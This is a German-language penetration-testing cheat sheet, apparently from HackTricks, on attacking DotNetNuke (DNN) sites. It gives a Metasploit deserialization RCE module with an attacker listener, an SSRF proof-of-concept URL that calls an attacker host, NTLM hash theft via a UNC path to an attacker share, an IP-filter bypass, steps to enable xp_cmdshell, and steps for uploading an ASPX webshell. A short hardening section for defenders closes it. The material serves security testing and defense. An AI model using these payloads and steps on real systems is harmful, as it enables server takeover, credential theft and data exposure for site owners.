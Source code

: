 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Wenn Sie sich als **Administrator** in DNN anmelden, ist es einfach, **RCE** zu erhalten. In den letzten Jahren wurden jedoch eine Reihe von *unauthentifizierten* und *post-auth* Techniken veröffentlicht. Das folgende Cheat-Sheet sammelt die nützlichsten Primitiven für sowohl offensive als auch defensive Arbeiten.

---
## Versions- & Umgebungsenumeration

* Überprüfen Sie den *X-DNN* HTTP-Antwortheader – er gibt normalerweise die genaue Plattformversion an.
* Der Installationsassistent gibt die Version in `/Install/Install.aspx?mode=install` preis (zugänglich bei sehr alten Installationen).
* `/API/PersonaBar/GetStatus` (9.x) gibt ein JSON-Blob zurück, das `"dnnVersion"` für Benutzer mit niedrigen Berechtigungen enthält.
* Typische Cookies, die Sie in einer Live-Instanz sehen werden:
* `.DOTNETNUKE` – ASP.NET-Formularauthentifizierungsticket.
* `DNNPersonalization` – enthält XML/serialisierte Benutzerdaten (alte Versionen – siehe RCE unten).

---
## Unauthentifizierte Ausnutzung

### 1. Cookie-Deserialisierung RCE  (CVE-2017-9822 & Folgemaßnahmen)
*Betroffene Versionen ≤ 9.3.0-RC*

`DNNPersonalization` wird bei jeder Anfrage deserialisiert, wenn der integrierte 404-Handler aktiviert ist. Durch manipuliertes XML kann daher zu beliebigen Gadget-Ketten und Codeausführung führen.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Das Modul wählt automatisch den richtigen Pfad für gepatchte, aber weiterhin anfällige Versionen (CVE-2018-15811/15812/18325/18326). Die Ausnutzung funktioniert **ohne Authentifizierung** bei 7.x–9.1.x und mit einem *verifizierten* Konto mit niedrigen Rechten bei 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Betroffene Versionen < 9.13.8  –  Patch veröffentlicht April 2025*

Ein Umgehen des älteren `DnnImageHandler`-Fixes ermöglicht es einem Angreifer, den Server zu zwingen, **willkürliche GET-Anfragen** auszugeben (semi-blind SSRF). Praktische Auswirkungen:

* Interner Port-Scan / Metadaten-Service-Entdeckung in Cloud-Bereitstellungen.
* Erreichen von Hosts, die sonst durch eine Firewall vom Internet getrennt sind.

Proof-of-Concept (ersetzen Sie `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Die Anfrage wird im Hintergrund ausgelöst; überwachen Sie Ihren Listener auf Rückrufe.

### 3. NTLM-Hash-Exposition über UNC-Umleitung  (CVE-2025-52488)
*Betroffene Versionen 6.0.0 – 9.x (< 10.0.1)*

Spezial angefertigte Inhalte können DNN dazu bringen, eine Ressource über einen **UNC-Pfad** wie `\\attacker\share\img.png` abzurufen. Windows führt bereitwillig die NTLM-Verhandlung durch und leakt die Serverkonto-Hashes an den Angreifer. Aktualisieren Sie auf **10.0.1** oder deaktivieren Sie ausgehendes SMB an der Firewall.

### 4. IP-Filter-Umgehung  (CVE-2025-52487)
Wenn Administratoren auf *Host/IP-Filter* zum Schutz des Admin-Portals angewiesen sind, beachten Sie, dass Versionen vor **10.0.1** durch Manipulation von `X-Forwarded-For` in einem Reverse-Proxy-Szenario umgangen werden können.

---
## Post-Authentifizierung zu RCE

### Über SQL-Konsole
Unter **`Einstellungen → SQL`** ermöglicht ein integriertes Abfragefenster die Ausführung gegen die Site-Datenbank.  Auf Microsoft SQL Server können Sie **`xp_cmdshell`** aktivieren und Befehle ausführen:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Über ASPX-Webshell-Upload
1. Gehe zu **`Einstellungen → Sicherheit → Mehr → Weitere Sicherheitseinstellungen`**.
2. Füge `aspx` (oder `asp`) zu **Erlaubte Dateierweiterungen** hinzu und **speichere**.
3. Gehe zu **`/admin/file-management`** und lade `shell.aspx` hoch.
4. Rufe es auf unter **`/Portals/0/shell.aspx`**.

---
## Privilegieneskalation unter Windows
Sobald die Codeausführung als **IIS AppPool\<Site>** erreicht ist, gelten gängige Windows-Privilegieneskalationstechniken. Wenn die Box anfällig ist, kannst du Folgendes nutzen:

* **PrintSpoofer** / **SpoolFool**, um *SeImpersonatePrivilege* auszunutzen.
* **Juicy/Sharp Potatoes**, um *Service Accounts* zu umgehen.

---
## Empfehlungen zur Härtung (Blue Team)

* **Upgrade** auf mindestens **9.13.9** (behebt SSRF-Umgehung) oder vorzugsweise **10.0.1** (IP-Filter- & NTLM-Probleme).
* Entferne verbleibende **`InstallWizard.aspx*`**-Dateien nach der Installation.
* Deaktiviere ausgehenden SMB (Ports 445/139) Egress.
* Erzwinge starke *Host-Filter* am Edge-Proxy anstelle innerhalb von DNN.
* Blockiere den Zugriff auf `/API/RemoteContentProxy`, wenn nicht verwendet.

## Referenzen

* Metasploit `dnn_cookie_deserialization_rce` Modul-Dokumentation – praktische Details zur nicht authentifizierten RCE (GitHub).
* GitHub-Sicherheitsberatung GHSA-3f7v-qx94-666m – Informationen zur SSRF-Umgehung & Patch-Informationen von 2025.
{{#include ../../banners/hacktricks-training.md}}
